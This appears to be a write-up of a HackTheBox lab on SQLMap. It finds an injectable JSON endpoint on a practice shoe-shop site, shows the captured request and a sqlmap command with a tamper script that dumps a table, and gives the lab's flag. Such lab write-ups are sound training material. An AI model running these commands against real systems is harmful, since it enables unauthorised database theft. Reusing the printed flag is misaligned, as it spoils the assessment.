 ```yaml
---
sticker: lucide//database-backup
---
```


# Skills Assessment

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

![](gitbook/cybersecurity/images/Pasted%20image%2020250204180837.png)

Once we go into the site, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250204180851.png)

Seems like a simple shoe shop, we have three interesting options we should take a look at: `Contact`, `Catalog`, `Blog`. We need to search around for some of them that injects code in the back-end server, let's take a look:

### Contact

![](gitbook/cybersecurity/images/Pasted%20image%2020250204181046.png)

In the contact site, we can see a form that we can fill in order to get in contact with the administrators. Nothing is off in this page, everything sets itself to `#`, so this is not what we're looking for.

### Blog

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250204181231.png)

We have a search bar, but the same stuff happens as with the contact site, it gets set to `#`.

### Catalog

***

If we go to the catalog section, we can go into a `shop.html` site, if we inspect the source code for this page, we can see this interesting code:

```
<script>
    $(".add-to-cart").click(function(event) {
        event.preventDefault();

        let xhr = new XMLHttpRequest(); 
        let url = "action.php"; 
    
        xhr.open("POST", url, true); 
        xhr.setRequestHeader("Content-Type", "application/json"); 

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) { 
                alert("Item added!!!")
            }
        };

        var data = JSON.stringify({ "id": 1 }); 
        xhr.send(data); 
    });
  </script>
```

The code basically acts whenever the `add-to-cart` button is clicked, the script posts a JSON object to the `action.php` endpoint.

We must capture the request with burp and use this command:

```
POST /action.php HTTP/1.1

Host: 94.237.53.230:33942

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.53.230:33942

Connection: keep-alive

Referer: http://94.237.53.230:33942/shop.html

Priority: u=0



{"id":1}
```

```
python3 sqlmap.py -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch
```

We get the following:

```
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```

Flag is `HTB{n07_50_h4rd_r16h7?!}`

![](gitbook/cybersecurity/images/Pasted%20image%2020250204183428.png)
